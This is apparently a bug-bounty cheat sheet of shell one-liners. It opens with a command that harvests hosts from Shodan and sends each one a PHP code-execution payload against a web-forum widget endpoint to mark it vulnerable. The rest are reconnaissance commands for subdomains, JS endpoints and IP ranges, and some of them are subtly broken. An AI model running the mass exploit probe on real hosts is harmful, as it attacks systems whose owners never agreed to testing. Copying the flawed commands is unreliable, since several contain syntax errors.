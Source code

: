 ```sh
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JS Files
> @D0cK3rG33k

```sh
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

### Extract Endpoints from JS File
> @renniepak

```sh
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Orgz from Target Lists
> @steve_mcilwain

```sh
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @thevillagehacker

```sh
curl -s "https://rapiddns.io/subdomain/abc.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run
> @\_ayoubfathi\_

```sh
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```

### Get Subdomains from Riddler.io
> @pikpikcu
```sh
curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```

### Get Subdomains from VirusTotal
> @pikpikcu
```sh
curl -s "https://www.virustotal.com/ui/domains/domain.com/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
